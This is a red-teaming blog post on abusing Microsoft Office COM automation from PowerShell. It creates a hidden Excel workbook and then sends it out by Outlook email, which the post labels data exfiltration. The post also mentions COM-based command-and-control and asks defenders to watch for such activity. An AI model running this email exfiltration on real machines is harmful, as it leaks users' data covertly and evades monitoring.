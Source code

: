 ```yaml
---
title: "Automating Microsoft Office to Achieve Red Teaming Objectives"
date: 2021-07-05T13:00:54-07:00
draft: true
tags: [
        "red", "ttp"
    ]
---
```


Many Windows applications and services are implemented using an automation infrastructure called `Component Object Model (COM)`. 

`COM` has been around for decades and its useful for programming, sharing of code at binary level, usage from scripting languages, and well, red teaming. 

## Wide Usage of Component Object Model

Many products are implemented as COM objects, including Microsoft Office. Using `PowerShell` (or other languages) `COM` objects can be created to fully automate applications and services. 

There is even a [Golang project to show how to invoke COM](https://github.com/go-ole/go-ole) from Go, which I'm certain real-world malware will pick up on soon.

## Exploring the Attack Angle

If a victim of a cyber attack has the Microsoft Office Suite installed malware can use `COM` in malicous and subversive ways. 

Importantly, this might be something that your Blue Teams is not yet trained to look for, so doing an operation in this space will be useful to build detection and investigation muscles.

Let's explore some scenarios and code examples in this blog post.

## Automating Microsoft Excel

For instance, it's quite simple to automate the popular `Excel` application via `PowerShell`. We can use the `New-Object -com` command to create the Excel Application, and subsequently interact with the returned object.

```
PS C:\> $excel = New-Object -com Excel.Application
PS C:\> $excel.Visible = $true
```

To stay under the radar and hide the user interface, use the default of `Visible = $false`.

### Editing the Excel document

As the next step we can add a `Workbook` and write some data to a specific `Cell`.

```
PS C:\> $workbook = $excel.Workbooks().Add()
PS C:\> $cell = $workbook.ActiveSheet.Cells(1,1)
PS C:\> $cell.Value = "Here goes the secret message!"
PS C:\> $workbook.Password = "Test"
```

This is how the result looks like:

![Using Excel Automation](/blog/images/2021/excel.PNG)

The above images shows the created Excel document. *Remember that we set `Visible=$true` - this to demo what is possible, during an attack an adversary would not show the user interface.*

### Saving the document

Using the `SaveAs` function the document can be stored.

```
PS C:\> $workbook.SaveAs("EmbraceTheRed")
```

### Closing the document

Finally, Excel can be closed.

```
PS C:\> $workbook.Close()
PS C:\> $excel.Quit()
```

### Data Exfiltration - Emailing the document

As said all most of Office is implemented using COM interfaces, so we can automate `Outlook` as well. 

In order to send the created `Excel` document out of the network, an adversary could use `Outlook` for instance. 

```
$to = ""
$subject = "Secret Excel Document"
$content = "Important message attached."

$outlook = New-Object -com Outlook.Application
$mail = $outlook.CreateItem(0)
$mail.Attachments.Add("EmbraceTheRed")
$mail.subject = $subject
$mail.To = $to
$mail.HTMLBody = $content

$mail.Send()
```

Note, this will use the current users Outlook profile.

Alternatively you could just use the Excel built in `SendMail` API which is [documented here](https://docs.microsoft.com/en-us/office/vba/api/excel.workbook.sendmail).


## Command & Control via Office Automation

Using these COM automation techniques its possible to use off the shelve applications installed on a compromised machine to exfiltrate data, but also to establish an entire C2 infrastructure and message communication. 

The MITRE ATT&CK matrix also [highlights a couple of real world attacks](https://attack.mitre.org/techniques/T1559/001/) that have used COM.

## Conclusion

COM Automation and scripting langauges are a powerful way for malware to perform operations, including data exfiltration. It uses existing applications already present on a compromised host which can make malicious usage difficult to detect. Hence it's important to monitor for untypically COM usage.

**In my opinion these TTPs are a good candidates for a purple team operations.**


Cheers,
[@wunderwuzzi23](https://twitter.com/wunderwuzzi23)

If you found this interesting check out my book about [Cybersecurity Attacks - Red Team Strategies](https://www.amazon.com/gp/product/1838828869/ref=as_li_tl?ie=UTF8&tag=wunderwuzzi-20&camp=1789&creative=9325&linkCode=as2&creativeASIN=1838828869&linkId=07bfd6b729fbc2b2904160e0e16c337f).


## References

1. [Golang projects that show how to use COM from Go](https://github.com/go-ole/go-ole). 
1. [SendMail Excel API](https://docs.microsoft.com/en-us/office/vba/api/excel.workbook.sendmail)
1. [COM and MITRE Attack](https://attack.mitre.org/techniques/T1559/001/)